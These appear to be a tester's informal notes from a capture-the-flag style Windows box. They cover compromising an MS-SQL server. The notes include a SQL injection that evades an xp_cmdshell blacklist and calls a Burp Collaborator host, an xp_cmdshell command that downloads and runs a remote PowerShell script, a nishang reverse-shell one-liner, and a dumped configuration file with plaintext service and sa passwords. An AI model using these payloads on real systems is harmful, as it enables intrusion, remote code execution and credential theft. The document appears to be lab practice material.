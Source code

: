 ```bash

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```


EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.32:80/update.ps1") | powershell -noprofile'



# THIS WORKED !!!!! I HAVE A SHELL AS THIS USER THE MS-SQL ACCOUNT

whoami
sequel\sql_svc


cat sql-Configuration.INI
[OPTIONS] ACTION="Install" QUIET="True" FEATURES=SQL INSTANCENAME="SQLEXPRESS" INSTANCEID="SQLEXPRESS" RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS" AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE" AGTSVCSTARTUPTYPE="Manual" COMMFABRICPORT="0" COMMFABRICNETWORKLEVEL=""0" COMMFABRICENCRYPTION="0" MATRIXCMBRICKCOMMPORT="0" SQLSVCSTARTUPTYPE="Automatic" FILESTREAMLEVEL="0" ENABLERANU="False"  SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS" SQLSVCACCOUNT="SEQUEL\sql_svc" SQLSVCPASSWORD="WqSZAF6CysDQbGb3" SQLSYSADMINACCOUNTS="SEQUEL\Administrator" SECURITYMODE="SQL" SAPWD="MSSQLP@ssw0rd!" ADDCURRENTUSERASSQLADMIN="False" TCPENABLED="1" NPENABLED="1" BROWSERSVCSTARTUPTYPE="Automatic" IAcceptSQLServerLicenseTerms=True


i have the user creds for sql_svc user so i can prob get a better shell with that and then go for user. #try_that_next_time

tried psexec wich uses smb did not work

tried all the impacket shells access denied

was it firewall issue???


# this is the port that allows remote powershell connections it is open

5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0



# using nishang for ps1 scripts 

powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
